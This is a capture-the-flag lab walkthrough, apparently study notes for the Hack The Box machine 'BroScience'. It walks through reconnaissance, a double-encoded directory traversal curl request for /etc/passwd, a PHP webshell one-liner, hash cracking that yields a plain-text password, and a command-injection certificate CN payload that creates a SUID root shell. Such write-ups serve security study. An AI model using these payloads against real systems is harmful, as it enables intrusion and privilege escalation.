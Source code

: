 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

### 🔍 Recon

#### 🌐 Ports Discovered (via `nmap`):
- [**22/tcp** - OpenSSH 8.4p1 (Debian)](SSH)
- [**80/tcp** - Apache 2.4.54, redirects to HTTPS](HTTP)
- **443/tcp** - Apache 2.4.54 (SSL-enabled)

```bash
nmap -p- --min-rate 10000 10.10.11.195
nmap -p 22,80,443 -sCV 10.10.11.195
```

#### 🌍 Website Behavior
- HTTP redirects to HTTPS (`https://broscience.htb`)
- Exercises accessible via `exercise.php?id=1`
- Requires registration + activation
- PHPSESSID cookie issued

#### 🔍 Directory Fuzzing
```bash
feroxbuster -u https://broscience.htb -x php -k --no-recursion
```
- Interesting endpoints: `index.php`, `register.php`, `login.php`, `user.php`, `activate.php`, `includes/img.php`

---

### 🐚 Shell as www-data

#### 🕳️ Directory Traversal (not LFI 😤)
- `/includes/img.php?path=` is vulnerable
- `..%252f` double-URL encoding bypasses filters

```bash
curl -k "https://broscience.htb/includes/img.php?path=..%252f..%252f..%252fetc%252fpasswd"
```

#### 📄 Source Read
- Dumped `/index.php`, `/includes/utils.php`, `/includes/db_connect.php`
- Found DB creds & salt `NaCl`
- Found unserialize on `user-prefs` cookie
- Found insecure `generate_activation_code()` using `srand(time())`

#### 🔓 Activation Code Forge
```php
md5($db_salt . $password);
```
- Brute-forced likely activation code based on server timestamp
- Activated user

#### 💥 PHP Deserialization to RCE
- Modified `user-prefs` cookie with `AvatarInterface` payload
- Hosted reverse shell via `cmd.php`
- Reached `/cmd.php?cmd=...`
- Reverse shell as `www-data`

```php
<?php system($_REQUEST['cmd']); ?>
```

---

### 🐚 Shell as bill

#### 🔎 Database Creds
- Used creds from `db_connect.php` to connect to PostgreSQL
- Dumped users table and cracked password hashes with:
```bash
hashcat -m 20 --user hashes rockyou.txt --show
```
- Cracked user bill's password: `iluvhorsesandgym`
- Switched user via `su - bill`

---

### 👑 Shell as root

#### 🔄 Cron Discovery (pspy)
- Found `/opt/renew_cert.sh` executed every 2 mins
- Reads from `/home/bill/Certs/broscience.crt`
- Vulnerable to command injection via `CommonName` field

#### 💣 Exploit
- Crafted certificate with payload:
```bash
CN = $(cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf)
```
- SetUID root shell dropped in `/tmp/0xdf`
- Executed `/tmp/0xdf -p` to get root

---

### 🏁 Flags
- **User:** `511395d5************************`
- **Root:** `e810aba4************************`

---

### 📬 Shoutout to 0xdf
- Blog: [0xdf hacks stuff](https://0xdf.gitlab.io/)
- Mastodon: `@0xdf@infosec.exchange`
- YouTube, Gitlab, Buy Me a Coffee ☕